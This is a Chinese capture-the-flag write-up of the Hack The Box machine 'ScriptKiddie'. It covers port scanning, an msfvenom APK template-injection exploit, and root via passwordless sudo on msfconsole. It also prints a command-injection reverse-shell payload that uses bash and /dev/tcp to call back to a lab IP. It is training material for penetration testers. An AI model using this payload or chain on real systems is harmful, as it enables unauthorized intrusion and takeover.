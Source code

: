 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/v8sVPCRMxfdx5j99jIIJvg)

**文章源自【字节脉搏社区】-字节脉搏实验室**

**作者-Zone**

**扫描下方二维码进入社区：**

**![图片](https://mmbiz.qpic.cn/mmbiz_png/ia3Is12pQKnK3Fc7MgHHCICGGSg2l58vxaP5QwOCBcU48xz5g8pgSjGds3Oax0BfzyLkzE9Z6J4WARvaN6ic0GRQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)**

 在HTB里面看到了一些新的靶场，便开始了靶场之路

![图片](https://mmbiz.qpic.cn/mmbiz_png/ia3Is12pQKnK82jyeQoGf7zTRFg3hIjaXiciaaSlueHFj8vsYWMCWeSESI14vvx2fH3S7r3wSr07dXPmRjINtQ6icA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

    ScriptKiddie 难度4.1，感觉还行，开启环境，先访问下ip

![图片](https://mmbiz.qpic.cn/mmbiz_png/ia3Is12pQKnK82jyeQoGf7zTRFg3hIjaXvYybY87gABNqrJ2qqbpc3cM7mjMXrbopmB84yWJp2ySKs7V4CCibrOg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

拒绝访问，说明具有web站点，但80端口未开放，nmap扫描端口

![图片](https://mmbiz.qpic.cn/mmbiz_png/ia3Is12pQKnK82jyeQoGf7zTRFg3hIjaXZiaUziaVjYT97aV6ibP1P6oKFzNic0eqEicDMQsz0G2ACD0XQAmA96uYiaPQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

开放了22，5000，8000，8888端口，但5000端口和8888端口打开是拒绝访问，所以从5000端口入手

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

工具集成的页面，nmap、msfvenom、searchsploit三款工具集成，先使用nmap ping127.0.0.1看下信息

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

两个端口22和5000，版本7.80，搜索一圈后没发现nmap7.80存在可利用漏洞，目光转向mfvenom，在exploit-db里找到一篇msfvenom apk模板注入，可以利用

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

因为有提供payload，下载之后保存到本地

运行payload会提示没有jarsigner命令，执行sudo apt-get install openjdk-11-jdk-headless，然后修改payload

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

这里注意ip，如果是虚拟机先下载openvpn(sudo apt-get openvpn) 在htb上下载配置文件，直接用openvpn打开就可以

查看下自己的ip，确认和靶机在同一个段，然后运行payload会生成一个evil.apk文件，在venom处上传apk文件，同时监听443端口

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

第二种方法：msf生成，在msf里搜索venom，调用第一个，设置好ip和端口，然后执行，在本地生成一个msf.apk，监听端口，上传，得到shell

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

相比较而言，第二种更稳定一点。得到shell之后切换到home目录可以看到存在kid和pwn两个用户，进入kid用户，可以看到user.txt，得到普通用户的flag![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

在pwn用户下看到存在scanlosers.sh文件，查看发现scanlosers.sh会一直扫描/home/kid/logs/hackers文件中的ip，但是该shell脚本未对hackers文件传入的内容做过滤，且/home/kid/logs/hackers文件当前用户kid可编辑

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

因此可以通过写入恶意代码“test  ;/bin/bash -c 'bash -i >&/dev/tcp/10.10.14.2/8888 0>&1' #”，利用命令注入获得pwn用户的shell

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

得到pwn用户的shell，sudo -l发现不需要密码的sudo程序

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

sudo /opt/metasploit-framework-6.0.0/msfconsole

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

切换至root目录，查看

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发现root.txt，查看该txt文件得到root用户的flag

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

提交，完事

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

  

注意事项：1、exp下载之后需要执行sudo apt-get install openjdk-11-jdk-headless命令

                  2、注意ip，确认主机和靶机在同一网段，如果是虚拟机，先下载openvpn，然后下载配置文件，使用openvpn打开即可  

                  3、如果上传的时候nc无法反弹回shell，可以重置一下靶机，删除已经生成好的apk文件重新生成一个apk文件，在进行上传

  

**通知！**

**公众号招募文章投稿小伙伴啦！只要你有技术有想法要分享给更多的朋友，就可以参与到我们的投稿计划当中哦~感兴趣的朋友公众号首页菜单栏点击【商务合作-我要投稿】即可。期待大家的参与~**

**![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)**

**记得扫码**

**关注我们**